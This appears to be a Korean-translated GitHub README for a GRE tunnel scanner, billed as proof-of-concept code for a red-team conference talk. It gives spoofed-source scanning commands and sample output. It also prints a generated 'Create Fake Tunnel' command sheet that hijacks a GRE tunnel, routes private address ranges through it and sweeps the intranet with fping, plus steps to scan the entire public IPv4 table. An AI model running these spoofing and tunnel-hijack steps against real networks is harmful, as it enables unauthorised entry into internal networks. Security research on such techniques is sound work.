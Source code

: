 # GRE 터널 스캐너
## ⚠️⚠️⚠️ 중요 ⚠️⚠️⚠️
### ⚠️이 도구는 출발지 IP 주소 스푸핑을 포함합니다. 사용 전에 법적 허가를 받았는지 확인하십시오.⚠️
## 참고
- 이 코드는 강연: 스푸핑에서 터널링까지: 초기 접근과 회피를 위한 새로운 레드팀 네트워킹 기술의 PoC 코드입니다.
    - [Black Hat USA 2025 브리핑](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 메인 스테이지](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## 준비
- `pip3 install requirement.txt`
## 사용법
```
python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```
## 예제
- 예를 들어 `1.1.1.1`과 `2.2.2.2`가 gre 터널을 가지고 있을 때 당신은 `3.3.3.3`입니다
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- 그리고 GRE 터널을 악용하는 방법을 알아내기
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```
- 엔드포인트는 알지만 피어 주소를 모를 경우 다음과 같이 할 수 있습니다
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`
  - 올바른 피어를 얻으면서 8.8.8.8로부터 응답을 받게 됩니다

- 기본 설정은 초당 약 500 패킷입니다.
## 옵션
- `-sch`: 치트시트를 보여주고 종료 (발견한 -i -lh -s -d 입력 후 GRE 터널 명령어를 얻음)
- `-l3`: 레이어 3 터널 인터페이스 (기본값: False)
- `-r`: ICMP에 GRE 목적지 IP 정보 배치 (기본값: GRE 출발지 IP 정보 배치)
- `-ss`: 상태 파일 저장 및 사용 (마지막 스캔에서 이어서 시작) (기본값: False)
  - 대규모 스캔 시스템에서는 "on" 권장, 가끔 스크립트가 종료됨
- `-i <interface>`: 패킷을 보낼 인터페이스
- `-s <ip_or_file>`: GRE 출발지로 사용할 IP 서브넷 또는 IP(서브넷) 목록
- `-d <ip_or_file>`: GRE 목적지로 사용할 IP 서브넷 또는 IP(서브넷) 목록
- `-L <file>`: GRE 피어 목록 스캔
  - 파일의 각 줄은 `1.1.1.1,2.2.2.2` 형식
- `-lh <ip>`: 공개 인터페이스의 IP (-i 인터페이스의 IP)
- `-o <file>`: 로그 파일 경로
- `-t <float>`: GRE 패킷 전송 후 대기 시간(초) (기본값: 2)
- `-T <int>`: 동시에 GRE 패킷을 전송할 스레드 수 (기본값: 255)
- `-cs <int>`: 응답 대기 시작 전 전송할 IP 수 (기본값: 1000)
- `-dp`: 개인 IP GRE 스캔 (기본값: False)
- `-id <ip>`: ICMP 내부 목적지 주소 (기본값: GRE 목적지와 동일)
  - 내부 인트라넷 주소를 알고 있을 때 사용
- `-v <log_level>`: 로그 레벨 `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (기본값: INFO)
  - GRE 피어 발견 로그는 `CRITICAL` 레벨

## 전체 공개 IP를 더 잘 스캔하는 방법


```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```
## 실험실
### 데모 비디오
- [유튜브](https://youtu.be/DDvfYl5-J28)
### GRE 터널 스캔
`python3 main.py -i <iface> -lh <your_ip> -s 1.1.1.1 -d 160.25.104.199`
### 인트라넷 접근 및 스캔

```
#### Create Fake Tunnel ####
IFACE=eth0  #change this 
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```

## 면책 조항
이 프로젝트는 교육 및 연구 목적으로만 사용됩니다. 이 코드와 관련된 모든 행위 및 활동은 전적으로 귀하의 책임입니다. 저자 및 기여자는 이 프로젝트로 인한 오용이나 손해에 대해 책임을 지지 않습니다. 이 코드를 테스트, 사용 또는 배포하기 전에 적절한 권한이 있는지 반드시 확인하십시오. 무단 사용은 지역, 주 및 연방법을 위반할 수 있습니다.

## 라이선스
이 프로젝트는 MIT 라이선스 조건에 따라 라이선스가 부여됩니다.



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-10-11

---